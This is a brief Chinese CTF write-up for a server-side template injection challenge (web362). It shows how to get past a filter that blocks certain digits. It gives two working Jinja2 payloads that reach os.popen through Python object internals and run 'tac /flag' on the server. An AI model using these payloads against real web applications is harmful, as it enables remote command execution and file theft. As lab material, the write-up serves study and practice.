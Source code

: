 # web362
?name={{2}},有过滤了
过滤了一些数字,2,3
那么在选用os._wrap_close的序号时需要做处理了
```
name={{"".__class__.__base__.__subclasses__()[132].__init__.__globals__.popen('tac /flag').read()}}
```
可以做一个运算来得到132如140-8,91+41
别忘了用+号时进行url编码
![](vx_images/410852817451328.png)
还可以用其他的类
```
?name={{lipsum.__globals__.get('os').popen('tac /flag').read()}}
```